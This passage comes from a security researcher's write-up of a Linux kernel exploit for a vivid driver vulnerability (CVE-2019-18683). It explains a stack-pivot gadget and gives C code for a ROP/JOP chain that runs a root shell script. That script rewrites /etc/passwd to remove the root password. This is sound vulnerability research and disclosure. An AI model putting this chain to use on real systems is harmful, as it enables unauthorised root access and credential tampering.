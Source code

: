 ## ROP'n'JOP

Now I'm going to tell about the ROP chain that I created for these special circumstances.

As you can see, I've found an excellent stack-pivoting gadget that fits to `void *(*vaddr)(void *buf_priv)`, where the control flow is hijacked. The `buf_priv` argument is taken from the `vb2_plane.mem_priv`, which is under our control. In the Linux kernel on `x86_64`, the first function argument is passed via the `RDI` register. So the sequence `push rdi; pop rsp` switches the stack pointer to the controlled location (it is on the kernel stack as well, so `SMAP` and `SMEP` are bypassed).

Then comes the ROP chain for local privilege escalation. It is unusual because it is executed in the kernel thread context (as described earlier in this write-up).

```c
#define ROP__PUSH_RDI__POP_RSP__pop_rbp__or_eax_edx__RET 0xffffffff814725f1
#define ROP__POP_R15__RET 0xffffffff81084ecf
#define ROP__POP_RDI__RET 0xffffffff8101ef05
#define ROP__JMP_R15 0xffffffff81c071be
#define ADDR_RUN_CMD 0xffffffff810b4ed0
#define ADDR_DO_TASK_DEAD 0xffffffff810bf260

unsigned long *rop = NULL;
char *cmd = "/bin/sh /home/a13x/pwn"; /* rewrites /etc/passwd to drop root password */
size_t cmdlen = strlen(cmd) + 1; /* for 0 byte */

/* mem_priv is the arg for vaddr() */
vplane = vbuf->vb.vb2_buf.planes;
vplane->mem_priv = (void *)(kstack - TIMEX_STACK_OFFSET + ROP_CHAIN_OFFSET);

rop = (unsigned long *)(timex_addr + ROP_CHAIN_OFFSET);
printf("   rop chain will be at %p, userspace %p\n", vplane->mem_priv, rop);

strncpy((char *)timex_addr + CMD_OFFSET, cmd, cmdlen);
printf("   cmd will be at %lx, userspace %p\n",
	(kstack - TIMEX_STACK_OFFSET + CMD_OFFSET),
	(char *)timex_addr + CMD_OFFSET);

/* stack will be trashed near rop chain, be careful with CMD_OFFSET */
*rop++ = 0x1337133713371337; /* placeholder for pop rbp in the pivoting gadget */
*rop++ = ROP__POP_R15__RET + kaslr_offset;
*rop++ = ADDR_RUN_CMD + kaslr_offset;
*rop++ = ROP__POP_RDI__RET + kaslr_offset;
*rop++ = (unsigned long)(kstack - TIMEX_STACK_OFFSET + CMD_OFFSET);
*rop++ = ROP__JMP_R15 + kaslr_offset;
*rop++ = ROP__POP_R15__RET + kaslr_offset;
*rop++ = ADDR_DO_TASK_DEAD + kaslr_offset;
*rop++ = ROP__JMP_R15 + kaslr_offset;

printf(" [+] the payload for kernel heap and stack is ready. Put it.\n");
```

This ROP chain loads the address of the kernel function `run_cmd()` from `kernel/reboot.c` to the `R15` register. Then it saves the address of the shell command to the `RDI` register. That address will be passed to `run_cmd()` as an argument. Then the ROP chain performs some JOP'ing :) It jumps to `run_cmd()` that executes `/bin/sh /home/a13x/pwn` with root privileges. That script rewrites `/etc/passwd` allowing to login as root without a password:


[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety